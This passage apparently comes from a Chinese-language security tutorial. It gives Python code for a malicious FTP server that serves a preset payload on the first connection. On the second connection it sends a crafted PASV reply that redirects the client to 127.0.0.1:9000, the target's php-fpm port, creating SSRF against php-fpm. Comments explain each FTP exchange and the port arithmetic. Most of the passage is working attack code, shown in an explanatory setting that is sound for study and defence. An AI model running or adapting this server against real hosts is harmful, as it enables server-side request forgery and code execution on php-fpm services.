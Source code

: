 ```plain
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```

运行上述脚本，一个恶意ftp服务就起来了：

[![](assets/1698897074-10e494ce4e8f629181a45e21373a483a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-9253cd1c-b2e5-1.png)

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的 payload；当客户端第二次连接的时候将客户端的连接重定向到 127.0.0.1:9000，也就是目标主机上 php-fpm 服务的端口，从而造成 SSRF，攻击其 php-fpm。
